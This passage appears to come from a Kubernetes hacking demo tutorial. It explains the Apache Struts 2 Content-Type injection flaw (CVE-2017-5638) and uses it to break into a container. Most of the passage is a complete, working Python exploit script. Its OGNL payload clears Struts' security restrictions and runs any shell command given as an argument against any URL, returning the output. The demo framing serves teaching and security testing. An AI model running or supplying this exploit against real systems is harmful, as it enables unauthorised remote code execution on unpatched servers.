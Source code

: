 We are now going to use the Apache Struts 2 CVE to exploit the container using **Strutsshock**.

An invalid Content-Type header is passed into a request which throws an error. The error is not escaped properly which allows us to inject additional commands which will be performed on the target machine.

![image](https://github.com/matt-bentley/KubernetesHackDemo/assets/27092434/c1833428-97a5-4143-ac24-81ce63cb7d11)


Create Python script for strutshock attack:

```bash
nano attack.py
```

Copy following script:

```python
import http.client
import urllib.error
import urllib.parse
import urllib.request


def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"
    try:
        headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
        request = urllib.request.Request(url, headers=headers)
        page = urllib.request.urlopen(request).read()
    except http.client.IncompleteRead as e:
        page = e.partial
    print(page)
    return page


if __name__ == '__main__':
    import sys

    if len(sys.argv) != 3:
        print("[*] str.py <url> <cmd>")
    else:
        print('[*]CVE: 2017-5638 - Apache Struts2 S2-045')
        url = sys.argv[1]
        cmd = sys.argv[2]
        print(("[*] cmd: %s\n" % cmd))
        exploit(url, cmd)
```
